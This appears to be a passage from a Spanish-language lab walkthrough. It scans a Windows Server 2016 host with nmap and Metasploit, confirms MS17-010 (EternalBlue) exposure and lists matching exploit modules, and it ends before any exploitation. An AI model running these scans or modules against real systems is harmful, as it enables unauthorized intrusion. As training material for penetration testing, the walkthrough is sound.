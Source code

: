 ```shell-session
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-27T22:13:30
|_  start_date: 2021-09-23T15:29:29
```

Descubrimos que:
- Está ejecutando *windows server 2016 standard 6.3* 
Vamos en primer lugar a comprobar si el sistema presenta la vulnerabilidad MS17-010 (Eternal Blue), debido a que parece un sistema antiguo.

Abrimos *msfconsole* y ejecutamos:
```shell-session
use auxiliary/scanner/smb/smb_ms17_010 
show options
SET RHOSTS 10.129.201.97
run
```
Nos devuelve:
```shell-session
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Nos dice que la máquina víctima es vulnerable seguramente a MS17-010 (Eternal Blue).

Vamos a buscar exploits relacionados con *Eternal Blue*, con el comando:
```shell-session
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
